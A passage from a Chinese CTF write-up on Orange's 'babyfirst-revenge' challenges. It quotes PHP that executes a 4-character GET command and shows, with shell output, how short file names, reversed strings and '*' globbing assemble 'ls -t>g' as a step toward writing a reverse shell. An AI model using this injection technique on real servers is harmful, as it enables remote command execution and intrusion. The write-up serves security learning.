 首先我们将命令按照相对分割。
```
>ls\\
>\ \\
>-t\\
>\>g
```

由于我们在这一步没办法通过写入时间来控制顺序，所以我们必须通过合理的分割方式和预写入来控制写入文件的内容。

成功写入`ls -t>g`之后,我们只需要按顺序来写入反弹shell的命令就可以了。


# babyfirst-revenge v2 #

```
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 4) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);

```
这题是上一题的进化版，把5位限制改成了4位，这里出现的最大的问题就是我们没办法解决`ls -t>g`的问题。下面的办法也主要是为了解决这个问题。

如果我们简单的分割字符，我们没办法解决ls的顺序问题。

这里就到了八仙过海各显神通的时候了，orange官方放出的解法是通过逆序来解决。

这里我们需要构造一条`ls -t>g`，但是我们可以把命令进一步拓展，比如`ls -th>g`，这样一来，假设我们逆序分割。
```
dir
sl
g\>
ht-
```

这样以来我们可以确保命令的顺序，然后用`*`来把语句链接起来
```
root@iZ285ei82c1Z:~/test# ls
dir  g>  ht-  sl
root@iZ285ei82c1Z:~/test# *
g>  ht-  sl
```

然后逆序在输入文件
```
root@iZ285ei82c1Z:~/test# ls
dir  g>  ht-  sl
root@iZ285ei82c1Z:~/test# *>v
root@iZ285ei82c1Z:~/test# >rev
root@iZ285ei82c1Z:~/test# *v>x
root@iZ285ei82c1Z:~/test# cat x
ls  -th  >g
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/c1c9vp7cvb2z2ausx5biqr84/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/u3360luwi2cwwqdsukt59ckv/image.png